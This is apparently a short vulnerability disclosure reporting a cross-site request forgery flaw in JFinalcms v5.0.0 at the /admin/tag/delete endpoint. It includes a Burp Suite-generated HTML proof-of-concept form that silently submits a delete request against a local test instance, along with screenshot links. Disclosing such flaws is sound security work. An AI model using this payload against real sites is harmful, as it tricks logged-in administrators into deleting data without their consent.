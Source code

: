 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /admin/tag/delete

![图片](https://github.com/cui2shark/cms/assets/52313275/3153b64d-d8fb-4d3f-80ac-6753d696c025)


create poc

![图片](https://github.com/cui2shark/cms/assets/52313275/9c89744b-d357-477f-af04-bd37b85ca502)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8888/admin/tag/delete" method="POST">
      <input type="hidden" name="ids" value="4" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

successed

![图片](https://github.com/cui2shark/cms/assets/52313275/9c9b9bff-5b7f-497a-92cd-23c1b778d6f9)
